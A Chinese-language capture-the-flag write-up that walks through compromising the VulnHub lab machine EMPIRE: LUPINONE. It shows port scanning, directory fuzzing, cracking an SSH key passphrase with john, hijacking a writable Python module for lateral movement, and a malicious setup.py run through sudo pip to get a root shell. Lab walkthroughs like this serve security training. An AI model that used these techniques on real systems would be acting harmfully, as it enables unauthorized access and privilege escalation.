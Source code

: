 ```yaml
---
layout: post
title: "vlunhub靶场之EMPIRE: LUPINONE"
date: "2022-10-20T02:11:00.669Z"
---
```

vlunhub靶场之EMPIRE: LUPINONE
==========================

**准备：**

攻击机：虚拟机kali、本机win10。

靶机：EMPIRE: LUPINONE，网段地址我这里设置的桥接，所以与本机电脑在同一网段，下载地址：https://download.vulnhub.com/empire/01-Empire-Lupin-One.zip，下载后直接Vbiox打开即可。

知识点：pip提权、fuzz爆破、base58解密、水平越权、john 工具的使用。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019132051109-2096340942.png)

**信息收集：**

扫描下端口对应的服务：nmap -T4 -sV -p- -A 192.168.0.11，显示开放了22、80端口，发现了robots.txt、/~myfile。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019132249548-1314071898.png)

访问下80端口、robots.txt、/~myfile并查看源代码信息，但是均未发现有效的信息。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019132627595-53769325.png)![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019132848354-163578739.png)

**目录扫描：**

使用dirmap进行目录扫描，常规的扫描未扫描出来啥信息，然后开启了fuzz扫描（需要在配置文件中开启fuzz模式，修改dirmap.config文件中的conf.fuzz\_mode = 1），发现了~secret目录并进行访问找到了提示信息。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019135402368-329649205.png)

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019135719121-868189358.png)

根据提示信息猜测账户名是icex64，并且告诉我们需要使用fasttrack破解他的密匙，猜测这里存在文件存放了密匙，这里采用ffuf进行扫描，命令：ffuf -u "http://192.168.1.4/~secret/FUZZ" -w /home/kali/Desktop/dict\_mode\_dict.txt -e .txt,.php,bak,html -mc 200，获取到.mysecret.txt文件。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019154942346-1045483144.png)

**信息解密和爆破：**

访问.mysecret.txt文件并对数据进行解密，直接在https://ntool.chinaz.com/tools/baseAll网站解密成功，获得密匙。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019155947408-146003875.png)

将得到的密匙存放到upfine文件中，使用john生成密码本，命令：python2 /usr/share/john/ssh2john.py /home/kali/Desktop/upfine > passwd。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019204720148-1387459011.png)

然后在使用fasttrack进行密码的爆破，命令：john --wordlist=/usr/share/wordlists/fasttrack.txt passwd，获得密码：P@55w0rd!

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019161515688-308503177.png)

**SSH登录：**

需要赋予upfine文件600权限，否则会登陆失败，登录命令：ssh icex64@192.168.1.4 -i upfine，这里注意下尽量在kali上生成upfine文件，如果在win上生成在复制上去可能会登陆失败。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019205433159-2070501818.png)

赋予600权限：chmod 600 upfine，使用ssh icex64@192.168.1.4 -i upfine进行ssh登录，输入密码：P@55w0rd!即可登录成功。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019205029317-1903069309.png)

连接之后在目录下发现了user.txt，找到了第一个flag。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019205647365-390665931.png)

**水平越权：**

查看下当前用户可以用 sudo 执行那些命令，发现了heist.py文件。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019211337697-77786398.png)

查看下heist文件，发现通过webbrowser打开了一个连接，查找下webbrowser，但是很多显示没有权限，但是这里想到了sudo -l中一个python3.9，命令：find /usr -name \*webbrowser\*，发现webbrowser.py文件。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019212942448-1603640672.png)![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019214259608-132166064.png)

查看该文件的权限，发现该文件具有root权限且当前用户具有编写权限，命令：ls -al /usr/lib/python3.9/webbrowser.py。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019214612426-1804544605.png)

因此在该文件中写入shell，代码：os.system("bin/bash")。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019215236280-576259517.png)

然后再用 arsene 调用 /home/arsene/heist.py，获取arsene权限，命令：sudo -u arsene python3.9 /home/arsene/heist.py。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019215635820-265891080.png)

**提权：**

查看下当前用户可以用 sudo 执行那些命令。

![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019215732328-1211667503.png)

发现了pip命令不需要root密码即可执行，那我们就用pip的root权限安装一个shell的程序，成功获取到 root 权限，查看 flag。

    mkdir upfine
    cd upfine
    echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > setup.py
    sudo pip install .

 ![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019221524160-251539617.png)![](https://img2022.cnblogs.com/blog/2834847/202210/2834847-20221019221558786-1691871892.png)